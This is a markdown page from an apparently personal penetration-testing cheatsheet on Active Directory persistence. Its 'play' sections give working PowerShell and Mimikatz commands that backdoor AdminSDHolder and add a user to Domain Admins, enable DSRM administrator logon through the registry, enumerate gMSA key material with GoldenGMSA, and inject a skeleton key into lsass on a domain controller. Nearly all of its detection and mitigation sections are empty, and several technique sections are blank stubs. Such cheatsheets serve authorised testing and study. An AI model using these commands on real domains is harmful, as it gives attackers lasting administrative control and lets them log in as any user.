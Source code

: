 ```yaml
---
layout: post
title: pen / ad / persist
category: pen
parent: cheatsheets
modified_date: 2024-11-28
permalink: /pen/ad/persist
---
```


**Menu**
<!-- vscode-markdown-toc -->
* [adminsdholder](#adminsdholder)
	* [play](#play)
	* [detect](#detect)
	* [mitigate](#mitigate)
* [dacl-abuse](#dacl-abuse)
	* [play](#play)
	* [detect](#detect)
	* [mitigate](#mitigate)
* [dc-shadow](#dc-shadow)
	* [play](#play)
	* [detect](#detect)
	* [mitigate](#mitigate)
* [dsrm](#dsrm)
	* [play](#play)
	* [detect](#detect)
	* [mitigate](#mitigate)
* [golden-gmsa](#golden-gmsa)
	* [play](#play)
	* [detect](#detect)
	* [mitigate](#mitigate)
* [security-descriptors](#security-descriptors)
	* [play](#play)
		* [set-remoteWMI](#set-remoteWMI)
		* [set-remotePSRemoting](#set-remotePSRemoting)
		* [add-remoteRegBackdoor](#add-remoteRegBackdoor)
	* [detect](#detect)
	* [mitigate](#mitigate)
* [skeleton-key](#skeleton-key)
	* [play](#play)
	* [detect](#detect)
	* [mitigate](#mitigate)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->


## <a name='adminsdholder'></a>adminsdholder

- special AD container with some "default" security permissions that is used as a template for protected AD accounts and groups
- roll backs the security permissions for protected accounts and group every 60 minutes

### <a name='play'></a>play
```powershell
# add the user to the adminsdholder group 
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName spotless -Verbose -Rights All

# check the user has genericAll over the 'Domain Admins' group
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'spotless'}

# add the user back to the 'Domain Admins' group
net group "domain admins" spotless /add /domain
```

### <a name='detect'></a>detect

### <a name='mitigate'></a>mitigate

## <a name='dacl-abuse'></a>dacl-abuse

### <a name='play'></a>play
```powershell
```
### <a name='detect'></a>detect

### <a name='mitigate'></a>mitigate

## <a name='dc-shadow'></a>dc-shadow

### <a name='play'></a>play
```powershell
```
### <a name='detect'></a>detect

### <a name='mitigate'></a>mitigate

## <a name='dsrm'></a>dsrm

### <a name='play'></a>play

- DSRM stands for 'Directory Services Restore Mode'
- allows remote access to the DC for the local admin accounts
- dump of local admins hash is required + activation of the feature in the **registry** 

```powershell
# check if the key exists and get the value
Get-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior 

# create key with value "2" if it doesn't exist
New-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2 -PropertyType DWORD 

# change value to "2"
Set-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2  
``` 

### <a name='detect'></a>detect

### <a name='mitigate'></a>mitigate

## <a name='golden-gmsa'></a>golden-gmsa

### <a name='play'></a>play

- Group Managed Service Accounts (gMSA), which are managed directly by AD, with a strong password and a regular password rotation
- password are computed based on KDS root keys + gMSA account 'msDS-ManagedPassword' attribute value
- hack implemented by [semperis/goldenGMSA](https://github.com/Semperis/GoldenGMSA) tool 

```powershell
# enumerate KDS root keys,  SID, RootKeyGuid, Password ID
GoldenGMSA.exe gmsainfo

# enumeration for a single gMSA
GoldenGMSA.exe gmsainfo --sid "S-1-5-21-[...]1586295871-1112"
```

### <a name='detect'></a>detect

### <a name='mitigate'></a>mitigate

- [trustedsec](https://www.trustedsec.com/blog/splunk-spl-queries-for-detecting-gmsa-attacks)

```powershell
```


## <a name='security-descriptors'></a>security-descriptors

### <a name='play'></a>play

#### <a name='set-remoteWMI'></a>set-remoteWMI
```powershell
```

#### <a name='set-remotePSRemoting'></a>set-remotePSRemoting
```powershell
```

#### <a name='add-remoteRegBackdoor'></a>add-remoteRegBackdoor
```powershell
```

### <a name='detect'></a>detect

### <a name='mitigate'></a>mitigate

* [](https://github.com/edemilliere/ADSI/blob/master/Invoke-ADSDPropagation.ps1)
* [](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-play/how-to-play-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)

## <a name='skeleton-key'></a>skeleton-key

### <a name='play'></a>play

- hack that injects a master password into the lsass process on a DC
- enables the adversary to authenticate as any user without password
- does not persist to reboot

```powershell
# execution on a DC
invoke-mimi 'misc::skeleton'
```

### <a name='detect'></a>detect

### <a name='mitigate'></a>mitigate